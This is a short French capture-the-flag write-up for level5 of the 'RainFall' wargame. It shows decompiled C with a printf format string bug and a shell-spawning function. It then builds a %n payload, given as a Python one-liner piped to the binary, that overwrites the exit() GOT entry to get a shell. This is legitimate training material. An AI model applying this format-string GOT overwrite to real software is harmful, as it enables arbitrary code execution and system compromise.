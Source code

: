 Here is the decompiled code :

```c
void o(void)

{
  system("/bin/sh");
                    /* WARNING: Subroutine does not return */
  _exit(1);
}

void n(void)

{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    /* WARNING: Subroutine does not return */
  exit(1);
}

void main(void)

{
  n();
  return;
}
```

On voit une fonction n() qui utilise printf avec la meme vulnerabilite que les 2 exercices precedents et une fonction o() qui spawn un shell. 

On va faire en sorte d'executer la fonction o() au moment du printf non protege pour spawn le shell.

On retrouve la position du buffer grace aux %x,
```
level5@RainFall:~$ ./level5 
aaaa %X %X %X %X %X %X %X %X
aaaa 200 B7FD1AC0 B7FF37D0 61616161 20582520 25205825 58252058 20582520
```

Il est en 4eme position.

L'adresse de o() est 0x080484a4.

On a nos elements pour exploiter la faille et spawn un shell.
On peut voir que la fonction n() utilise exit(), et grace a printf, on va modifier l'adresse d'exit pour atteindre la fonction o().

```
level5@RainFall:~$ objdump -R level5 | grep "exit"
08049838 R_386_JUMP_SLOT   exit
```

L'adresse est donc 0x08049838.

Le payload va ressembler a ca :
[ addr exit() ] + [ valeur de l'addr o() - 4 bytes de l'addr d'exit() ]

`(python -c 'print("\x38\x98\x04\x08%134513824d%4$n")'; cat) | ./level5`

Done
